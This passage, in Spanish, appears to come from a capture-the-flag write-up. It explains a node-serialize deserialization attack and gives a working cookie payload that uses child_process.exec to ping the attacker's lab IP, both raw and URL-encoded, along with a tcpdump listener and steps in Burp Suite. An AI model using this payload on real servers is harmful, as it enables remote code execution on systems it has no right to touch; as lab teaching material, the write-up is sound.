 > \_\$\$ND\_FUNC\$\$_ es un prefijo especial usado por la librería node-serialize 
para permitir la serialización de funciones JavaScript. Este prefijo indica que el valor asociado es una función, y cuando el objeto es deserializado, node-serialize interpretará esa cadena como una función ejecutable.

> El parantesis simple **()** que aparece al final de la línea o mejor conocido como **IIFE(Immediately Invoked Function Expression)** es empleado para hacer que el flujo del programa no espere ninguna llamada adicional, pero en este caso permite la ejecución de la función anónima durante el proceso de deserialización.

Añadimos a la cookie serializada el siguiente contenido tal que:

```javascript
{"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"ping -c 1 10.10.14.192\", function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Posteriormente procedemos a convertirla en formato **URL ENCODE**.

```bash
%7b%22%75%73%65%72%22%3a%22%61%64%6d%69%6e%22%2c%22%73%69%67%6e%22%3a%22%32%33%65%31%31%32%30%37%32%39%34%35%34%31%38%36%30%31%64%65%62%34%37%64%39%61%36%63%37%64%65%38%22%2c%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%28%29%7b%72%65%71%75%69%72%65%28%5c%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%5c%22%29%2e%65%78%65%63%28%5c%22%70%69%6e%67%20%2d%63%20%31%20%31%30%2e%31%30%2e%31%34%2e%31%39%32%5c%22%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```

Sí la máquina es vulnerable a un ataque de deserialización esta ejecutará el payload malicioso y realizará ping a nuestra máquina atacante, de tal modo confirmaría que el servidor es vulnerable a un ataque de deserialización que podemos derivar a un **RCE**. 

El comando para levantar un servicio a la escucha de trazas **ICMP** es el siguiente:

```bash
tcpdump -i tun0 icmp -n
```

Interceptamos la petición con **Burpuite** y la enviamos al repeater donde le damos el formato que se indica anteriormente y confirmamos que la máquina victima es vulnerable a un **RCE** mediante un ataque de deserialización.

<div style="text-align: center;">
  <img src="/assets/images/NodeBlog/RCEprove.jpg" alt="editorial" width="1000" oncontextmenu="return false;">
</div>
<br>
